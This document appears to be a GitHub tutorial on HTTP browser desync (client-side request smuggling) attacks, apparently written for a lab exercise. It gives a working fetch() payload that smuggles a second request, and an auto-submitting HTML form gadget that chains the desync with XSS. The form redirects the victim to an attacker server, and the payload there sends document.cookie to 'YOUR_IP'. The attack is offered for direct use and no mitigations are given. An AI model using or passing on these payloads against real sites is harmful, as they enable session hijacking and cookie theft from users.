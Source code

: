 # HTTP Browser Desync Attack

### In a Browser Desync attack, the attacker aims to take control of a victim's account by exploiting vulnerabilities in a web application's user connection system.

### This attack occurs in two steps:

#### 1) The initial request, appearing legitimate, is intended to disrupt the user request queue by introducing an arbitrary request. 

#### 2) Once the connection pool is compromised, the very next valid request will be replaced by the arbitrary request initiated in the previous step.

### Straightforward payload example:

fetch('http://MACHINE_IP:5000/', {    method: 'POST',    body: 'GET /redirect HTTP/1.1\r\nFoo: x',    mode: 'cors',})

### Write this JavaScript Payload in your browser command line that you can write JS

### Command breakdown:

#### 1) http://MACHINE_IP = This is the URL to which the HTTP request is made for the vulnerable server. In this case, it's the registration endpoint on the local server.

#### 2) { method: 'POST' } = The method parameter specifies the HTTP method for the request. Here, it's set to 'POST'.

#### 3) { body: 'GET /redirect HTTP/1.1\r\nFoo: x' } = In the body, there is the second request that is going to be injected into the queue.

#### 4) { mode: 'cors' } = This flag triggers an error when visiting the 404 web page and avoids following the redirect.

# Browser Desync exploit chaining XSS

### One potential attack vector involves replacing the following request with an arbitrary JavaScript file to execute custom code. However, this strategy necessitates the presence of an arbitrary file upload feature on the website.

### Instead, we can use a rogue server to deliver an XSS attack to steal the cookie from the victim. 

### We can use the following gadget and deliver it to abuse any component of the web application that allows to reflect text and probably be visited by a user:

>form id="btn" action="http://MACHINE_NAME.COM/"
    method="POST"
    enctype="text/plain">
>textarea name="GET http://YOUR_IP HTTP/1.1
AAA: A">placeholder1</textarea>
>button type="submit">placeholder2</button>
>/form>
>script> btn.submit() </script>

### We utilize a form because it inherently supports a keep-alive connection by default. The type is used to avoid the default encoding MIME type since we don't want to encode the second malicious request.

### Furthermore, the textarea's name attribute will overwrite the bytes of the following request, enabling redirection to our rogue server.

### To summarize, this gadget operates by using the initial request to position the victim within the connection context of the vulnerable server. The following request retrieves the malicious payload, compromising the victim's session.

### To do so, we can set up a rogue server by serving a route with a malicious payload like fetch('http://YOUR_IP/' + document.cookie);
